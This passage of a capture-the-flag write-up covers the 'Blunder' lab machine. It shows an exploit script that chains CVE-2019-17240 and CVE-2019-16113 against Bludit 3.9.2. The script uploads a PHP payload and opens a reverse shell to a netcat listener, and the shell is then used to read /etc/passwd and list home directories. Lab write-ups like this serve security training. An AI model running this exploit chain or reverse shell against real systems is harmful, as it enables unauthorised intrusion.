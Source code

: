 ```python
```

run an exploit to get back reverse shell.

```bash
ghost@localhost [16:23:13] [~/Documents/hacking/tj-null-boxes/blunder] [master *]
-> % python3 rce.py

     _____      _    ______  _____  _____
    |  __ \    | |   | ___ \/  __ \|  ___|
    | |  \/ ___| |_  | |_/ /| /  \/| |__
    | | __ / _ \ __| |    / | |    |  __|
    | |_\ \  __/ |_ _| |\ \ | \__/\| |___
     \____/\___|\__(_)_| \_| \____/\____/

    This exploit combines CVE-2019-17240 & CVE-2019-16113 to gain remote shell on target.

    Created by: kisho64 (@h_a_m_i__)

Enter target URL (i.e. https://target.com): http://10.10.10.191
[ ~ ] Enter listener's IP: 10.10.14.3
[ ~ ] Enter listener's port: 4444
[...] Checking if the target is live...
[ + ] The target is live! We are good to go...

[...] Attempting to login now...
[ + ] Login succeed... We are good to go :)

[ + ] The payload GzvMRqmYZE.php has been uploaded...
[ + ] The payload .htaccess has been uploaded...

[...] Attempting to get a shell... @ http://10.10.10.191/bl-content/tmp/GzvMRqmYZE.php
```

Reverse shell on netcat.

```bash
ghost@localhost [16:19:05] [~/Documents/hacking/tj-null-boxes/blunder] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.191] 35804
bash: cannot set terminal process group (1278): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```


# User

There are 2 users (excluding root).

```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ ls /home
hugo
shaun

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat /etc/passwd | grep -v 'false\|nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```
